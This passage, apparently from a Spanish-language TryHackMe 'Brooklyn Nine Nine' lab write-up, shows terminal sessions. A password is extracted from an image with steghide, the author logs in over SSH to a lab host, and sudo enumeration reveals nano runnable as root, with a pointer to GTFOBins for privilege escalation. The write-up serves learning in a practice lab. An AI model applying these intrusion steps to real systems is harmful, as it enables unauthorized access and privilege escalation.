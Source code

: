 Otra posibilidad habría sido extraerlo con **steghide** utilizando la passphrase que nos aportó **stegcracker**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/BrooklynNineNine]
└─$ steghide extract -sf brooklyn99.jpg
Enter passphrase: 
wrote extracted data to "note.txt".

┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/BrooklynNineNine]
└─$ cat note.txt
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Vamos por ssh con el usuario *holt*.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/BrooklynNineNine]
└─$ ssh holt@10.10.190.53              
holt@10.10.190.53's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls -la
total 48
drwxr-xr-x 6 holt holt 4096 May 26  2020 .
drwxr-xr-x 5 root root 4096 May 18  2020 ..
-rw------- 1 holt holt   18 May 26  2020 .bash_history
-rw-r--r-- 1 holt holt  220 May 17  2020 .bash_logout
-rw-r--r-- 1 holt holt 3771 May 17  2020 .bashrc
drwx------ 2 holt holt 4096 May 18  2020 .cache
drwx------ 3 holt holt 4096 May 18  2020 .gnupg
drwxrwxr-x 3 holt holt 4096 May 17  2020 .local
-rw-r--r-- 1 holt holt  807 May 17  2020 .profile
drwx------ 2 holt holt 4096 May 18  2020 .ssh
-rw------- 1 root root  110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt   33 May 17  2020 user.txt
holt@brookly_nine_nine:~$ cat user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
holt@brookly_nine_nine:~$ 
```

En este caso, el binario que podemos explotar es *nano*. Volvemos a [GTFOBins](https://gtfobins.github.io/).

![](/assets/posts/20220810/img19.png)
